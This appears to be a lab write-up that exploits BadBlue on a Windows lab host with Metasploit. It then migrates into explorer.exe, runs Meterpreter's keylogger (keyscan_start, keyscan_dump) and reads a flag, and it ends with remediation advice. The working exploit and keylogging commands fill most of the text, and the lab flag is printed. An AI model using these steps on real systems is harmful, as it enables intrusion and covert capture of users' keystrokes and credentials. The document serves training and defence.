# File and Keylogging

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local — Windows, BadBlue on port 80<br>
**Flag:** `70a569da306697d64fc6c19afea37d94`

## 1. Executive Summary

After exploiting **BadBlue** for a Meterpreter session, we demonstrate Meterpreter's
file-interaction and **keystroke logging** features. Migrating into `explorer.exe`, the
`keyscan_start` / `keyscan_dump` commands capture keystrokes typed on the target (shown here
with a user entering text in Notepad). Finally the flag is read from `C:\`.

## 2. Recon & Exploitation

```bash
ping -c 4 demo.ine.local
db_nmap -sV <target>
services
```









```bash
use exploit/windows/http/badblue_passthru
set RHOSTS <target>
exploit
```



## 3. Migrating to explorer.exe

The keylogger captures more reliably from an interactive desktop process.

```bash
pgrep explorer
migrate 1324
```



## 4. Keystroke Logging

Starting the keystroke sniffer.

```bash
keyscan_start
```



While the logger runs, text is typed on the target (here, into Notepad).



Dumping the captured keystrokes shows what was typed (special keys appear as `<Shift>`,
`<CR>`, etc.).

```bash
keyscan_dump
```



More input on the target...



...is reflected in the next dump.

```bash
keyscan_dump
```



## 5. Capturing the Flag

```bash
cd C:\
dir
cat flag.txt
# 70a569da306697d64fc6c19afea37d94
```



## 6. Remediation Recommendations

1. **Patch/replace BadBlue** to prevent the initial RCE that enables post-exploitation.
2. **Protect against injection into desktop processes** with EDR and least privilege — a
   SYSTEM/interactive process gives keystroke visibility.
3. **Use MFA** so captured static credentials are not sufficient on their own.
4. **Monitor** for Meterpreter-style process migration and keylogging behaviour.
